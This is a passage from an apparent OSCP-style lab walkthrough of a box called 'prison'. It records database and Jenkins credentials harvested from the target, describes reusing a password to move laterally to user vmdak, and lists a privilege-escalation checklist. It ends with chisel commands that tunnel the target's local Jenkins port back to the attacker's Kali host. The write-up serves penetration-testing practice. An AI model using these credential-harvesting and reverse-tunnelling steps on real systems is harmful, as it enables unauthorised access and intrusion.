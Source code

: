 ![image.png](image%208.png)

We see locally running MySQL server:

![image.png](image%209.png)

![image.png](image%2010.png)

Searching DB credentials I found under `/var/www/prison/database`

## Credentials

```xml
Malcom --> vmdak : RonnyCache001
root : sqlCr3ds3xp0seD
Jenkins initAdminPass - 140ef31373034d19a77baa9c6b84a200
```

## Lateral Movement

Catting `/etc/passwd` file I see there is another user `vmdak` , I used previously discovered password for that account.

![image.png](image%2011.png)

## Privilege Escalation

- **OSCP Checklist**
    - [ ]  Situational awareness
    - [ ]  Exposed Confidential Information
    - [ ]  Password Authentication Abuse
    - [ ]  Hunting Sensitive Information
    - [ ]  Sudo
    - [ ]  SUID/SGID
    - [ ]  Capabilities
    - [ ]  Cron Jobs Abuse
    - [ ]  Kernel Exploits
    - [ ]  **Check if sudoers file is writable**
    - [ ]  Try credentials you already obtained for various services admin roles
    

From previous file from ftp server we noticed Jenkins and I see locally open port 8080:

![image.png](image%2012.png)

maybe that’s where Jenkins is running.

I am gonna perform chisel reverse port forwarding:

```bash
./chisel server --reverse --port 1234 #kali

./chisel client 192.168.45.227:1234 R:8081:127.0.0.1:8080 #target
```
